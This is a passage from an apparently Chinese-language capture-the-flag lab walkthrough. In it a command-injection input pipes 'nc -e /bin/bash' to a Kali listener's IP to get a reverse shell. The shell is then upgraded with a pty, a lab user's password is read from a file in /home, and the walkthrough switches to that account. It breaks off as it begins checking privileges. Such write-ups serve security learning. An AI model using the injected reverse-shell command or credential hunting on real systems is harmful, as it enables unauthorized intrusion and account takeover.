 ![image-20220317150751398](https://gitee.com/xxb667/img/raw/master/img/image-20220317150751398.png)

```
google.fr|nc -e /bin/bash 192.168.81.131 5555
```

然后kali进行监听

```
nc -lvnp 5555
```

![image-20220317150917789](https://gitee.com/xxb667/img/raw/master/img/image-20220317150917789.png)

## 4.2 找到新用户的账户密码

获取shell后，切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20220317153727719](https://gitee.com/xxb667/img/raw/master/img/image-20220317153727719.png)

切换到home目录

```
cd /home
```

在下面路径中看到了另一个用户的密码

```
 /home/mark/stuff/things-to-do.txt
```

账户密码为：

```
账户：graham
密码：GSo7isUM1D4
```

![image-20220317151618568](https://gitee.com/xxb667/img/raw/master/img/image-20220317151618568.png)

切换用户：

```
su graham
```

输入密码：

```
GSo7isUM1D4
```

![image-20220317153850779](https://gitee.com/xxb667/img/raw/master/img/image-20220317153850779.png)

查看当前用户及其权限
